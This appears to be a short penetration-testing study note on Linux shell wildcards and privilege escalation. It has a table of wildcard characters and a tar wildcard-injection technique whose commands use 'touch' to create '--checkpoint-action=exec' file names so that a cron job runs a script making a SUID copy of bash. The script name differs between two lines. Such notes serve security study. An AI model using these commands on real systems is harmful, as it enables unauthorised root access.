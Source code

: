 A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

|**Character**|**Significance**|
|---|---|
|`*`|An asterisk that can match any number of characters in a file name.|
|`?`|Matches a single character.|
|`[ ]`|Brackets enclose characters and can match any single one at the defined position.|
|`~`|A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.|
|`-`|A hyphen within brackets will denote a range of characters.|
#### Cron Wildcards
If we only have read permissions on a script but it is using a wildcard with another command, we can make that command run something malicious instead
![[Pasted image 20250213155415.png]]
With tar specifically we can make it run a script using touch and checkpoints

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > privme.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh privmeme.sh"
```
#### Sudo -l

![](https://oscp.adot8.com/~gitbook/image?url=https%3A%2F%2F3007503158-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252Fp6nDpW0GBTPP8pZM4JHQ%252Fuploads%252FTppViBv9YZglOBRH4HuE%252Fimage.png%3Falt%3Dmedia%26token%3D703b1206-6e03-426f-bafa-087a5635d05c&width=768&dpr=4&quality=100&sign=a2eab99&sv=2)

With the wildcard we can just change the directory

![](https://oscp.adot8.com/~gitbook/image?url=https%3A%2F%2F3007503158-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252Fp6nDpW0GBTPP8pZM4JHQ%252Fuploads%252FgDl7bGpwWl3dDCC69ITB%252Fimage.png%3Falt%3Dmedia%26token%3D678dc55e-d02d-42e4-a5da-4de3673bc24f&width=768&dpr=4&quality=100&sign=56f5a936&sv=2)